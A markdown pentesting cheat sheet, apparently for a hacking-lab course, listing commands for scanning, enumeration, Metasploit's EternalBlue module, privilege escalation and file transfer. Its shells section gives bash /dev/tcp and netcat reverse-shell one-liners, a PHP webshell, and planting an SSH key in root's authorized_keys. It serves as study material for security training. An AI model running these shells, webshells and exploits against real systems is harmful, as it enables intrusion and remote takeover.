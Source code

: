 # 🛠️ Basic Pentesting Cheat Sheet

## 🔧 General

| Command | Description |
|--------|-------------|
| `sudo openvpn user.ovpn` | Connect to VPN |
| `ifconfig` / `ip a` | Show IP address |
| `netstat -rn` | Show networks accessible via the VPN |
| `ssh user@10.10.10.10` | SSH to a remote server |
| `ftp 10.129.42.253` | FTP to a remote server |

---

## 🧩 Tmux

| Command | Description |
|--------|-------------|
| `tmux` | Start tmux |
| `ctrl+b` | Default tmux prefix |
| `prefix c` | New window |
| `prefix 1` | Switch to window 1 |
| `prefix Shift+%` | Split pane vertically |
| `prefix Shift+"` | Split pane horizontally |
| `prefix →` | Switch to right pane |

---

## ✍️ Vim Basics

| Command | Description |
|--------|-------------|
| `vim file` | Open file with vim |
| `esc + i` | Enter insert mode |
| `esc` | Back to normal mode |
| `x` | Cut character |
| `dw` | Cut word |
| `dd` | Cut line |
| `yw` | Copy word |
| `yy` | Copy line |
| `p` | Paste |
| `:1` | Go to line 1 |
| `:w` | Save file |
| `:q` | Quit |
| `:q!` | Quit without saving |
| `:wq` | Save and quit |

---

## 🔍 Service Scanning

| Command | Description |
|--------|-------------|
| `nmap 10.129.42.253` | Basic scan |
| `nmap -sV -sC -p- 10.129.42.253` | Version/script scan |
| `locate scripts/citrix` | List nmap scripts |
| `nmap --script smb-os-discovery.nse -p445 10.10.10.40` | Run SMB nmap script |
| `netcat 10.10.10.10 22` | Grab banner |
| `smbclient -N -L \\\\10.129.42.253` | List SMB shares |
| `smbclient \\\\10.129.42.253\\users` | Connect to SMB share |
| `snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0` | Scan SNMP |
| `onesixtyone -c dict.txt 10.129.42.254` | Brute force SNMP |

---

## 🌐 Web Enumeration

| Command | Description |
|--------|-------------|
| `gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt` | Directory scan |
| `gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt` | Subdomain scan |
| `curl -IL https://www.inlanefreight.com` | Grab headers |
| `whatweb 10.10.10.121` | Webserver info |
| `curl 10.10.10.121/robots.txt` | Check robots.txt |
| `Ctrl + U` | View page source |

---

## 💣 Public Exploits

| Command | Description |
|--------|-------------|
| `searchsploit openssh 7.2` | Search public exploits |
| `msfconsole` | Start Metasploit |
| `search exploit eternalblue` | Search MSF exploits |
| `use exploit/windows/smb/ms17_010_psexec` | Use exploit module |
| `show options` | Show module options |
| `set RHOSTS 10.10.10.40` | Set remote host |
| `check` | Check vulnerability |
| `exploit` | Launch exploit |

---

## 🐚 Using Shells

| Command | Description |
|--------|-------------|
| `nc -lvnp 1234` | Start listener |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'` | Reverse shell |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f` | Reverse shell (fifo method) |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f` | Start bind shell |
| `nc 10.10.10.1 1234` | Connect to bind shell |
| `python -c 'import pty; pty.spawn("/bin/bash")'` | Upgrade shell TTY (method 1) |
| `Ctrl+Z`, `stty raw -echo`, `fg`, then double Enter | Upgrade shell TTY (method 2) |
| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php` | Create PHP webshell |
| `curl http://SERVER_IP:PORT/shell.php?cmd=id` | Execute command in webshell |

---

## 🔼 Privilege Escalation

| Command | Description |
|--------|-------------|
| `./linpeas.sh` | Run LinPEAS |
| `sudo -l` | List sudo privileges |
| `sudo -u user /bin/echo Hello World!` | Run command as another user |
| `sudo su -` | Switch to root |
| `sudo su user -` | Switch to another user |
| `ssh-keygen -f key` | Create SSH key |
| `echo "ssh-rsa AAAA... user@parrot" >> /root/.ssh/authorized_keys` | Add SSH key |
| `ssh root@10.10.10.10 -i key` | SSH using private key |

---

## 📁 Transferring Files

| Command | Description |
|--------|-------------|
| `python3 -m http.server 8000` | Start local webserver |
| `wget http://10.10.14.1:8000/linpeas.sh` | Download via wget |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh` | Download via curl |
| `scp linenum.sh user@remotehost:/tmp/linenum.sh` | Transfer via SCP |
| `base64 shell -w 0` | Encode file in base64 |
| `md5sum shell` | Check file integrity |

#

 `echo f0VMR... | base64 -d > shell` | Decode from base64 |
